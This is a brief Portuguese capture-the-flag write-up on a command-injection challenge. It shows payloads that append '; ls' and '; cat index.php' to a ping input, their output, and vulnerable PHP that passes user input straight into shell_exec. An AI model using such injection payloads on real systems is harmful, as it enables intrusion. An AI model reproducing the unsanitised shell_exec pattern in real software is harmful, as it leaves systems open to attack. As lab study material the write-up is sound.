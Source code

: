 # HP - Command injection

É possível embutir um segundo comando com ponto e vírgula (;). Então usamos ls para visualizar o arquivo index.php no diretório, cat para lê-lo e depois visualizar a flag pelo código fonte:

<pre>127.0.0.1; ls
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.050 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.036 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.036/0.040/0.050/0.009 ms
index.php</pre>

<pre>127.0.0.1;cat index.php
< ?php 
$flag = "(flag_here)";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?></pre>
